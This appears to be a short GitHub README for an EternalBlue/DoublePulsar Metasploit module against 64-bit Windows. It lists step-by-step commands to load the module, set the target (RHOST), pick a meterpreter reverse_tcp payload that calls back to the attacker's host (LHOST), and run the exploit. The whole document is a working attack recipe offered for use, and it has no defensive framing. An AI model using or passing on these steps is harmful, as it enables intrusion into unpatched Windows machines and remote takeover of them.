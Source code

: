 ## Eternalblue-Doublepulsar-Metasploit for windows

### Example(x64 target):

- Step 1: Copy deps to somewhere

- Step 2: Copy eternalblue_doublepulsar.rb to your metasploit (local) modules directory
    
- Step 3: Set metasploit module
    
    	Select eternalblue_doublepulsar:
      
          # use modules/exploits/windows/smb/eternalblue_doublepulsar
          
    	Set TOOLKITPATH to your deps directory:
      
          # set TOOLKITPATH d:\\deps
          # set RHOST x.x.x.x
          # set payload windows/x64/meterpreter/reverse_tcp
          # set LHOST x.x.x.x
	
    
- Step 4: Exploit
    
    	Example:
      
    	    # exploit
